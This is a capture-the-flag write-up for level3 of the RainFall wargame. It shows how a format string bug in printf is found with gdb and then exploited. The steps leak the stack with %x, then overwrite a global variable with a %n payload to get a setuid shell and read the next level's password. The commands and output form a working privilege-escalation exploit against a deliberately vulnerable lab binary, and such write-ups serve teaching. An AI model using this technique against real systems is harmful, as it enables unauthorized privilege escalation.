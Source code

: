 # Level3

As in level2, we can find an executable waiting for an input, print it and quit after press enter
```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
level3@RainFall:~$ ./level3
bla
bla
level3@RainFall:~$
```
After analyze it with gdb we can see that the `main()` function call a function named `v()`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/level3/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/level3/source.c) for more details.  
Let focus on the `v()` function.  
We can see a call to `fgets()` function wich is protect against buffer overflow attack.  
```
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
```
But we can also see a call to `printf()` function wich is vulnerable to format string exploit!  
```
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
```
After that the program compares the value of a global variable `m` at "0x804988c" to 64.  
If the comparaison return true then the function will print "Wait what?!\n" and launch a shell via a call to `system()`.  
We need to manipulate `printf()` function into changing the value of the variable at the address `0x804988c`.  
First we need to print the memory until we reach the address of the variable we wish to modify :
```
level3@RainFall:~$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
level3@RainFall:~$
```
Our buffer `aaaa` is at the 4th position (`61616161`). The modifier format `%x` allow us to print address on the stack, cast on unsigned hexadecimal integer ([man printf](http://manpagesfr.free.fr/man/man3/printf.3.html))  
Now we can replace our buffer `aaaa` by the address of the variable `m` in little endian.
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3
 200 b7fd1ac0 b7ff37d0 804988c
level3@RainFall:~$
```
Good, the only last thing to do is that we don't want to print the memory, we want to change the content of the variable `m`.  
Don't forget that the variable `m` must have 64 bytes so we just have to add 60 bytes to the address passed before.  
The modifier `%n` will write the number of bytes specified before in the choosen address. We can specify the address with %[number]$n option.  
Finally our final format string attack will look like :
- address of `m`        : 4 bytes
- pad of arbitrary data : 60 bytes
- modifier `%n`
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
^C
level3@RainFall:~$ su level4
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
level4@RainFall:~$
```
Level3 passed!
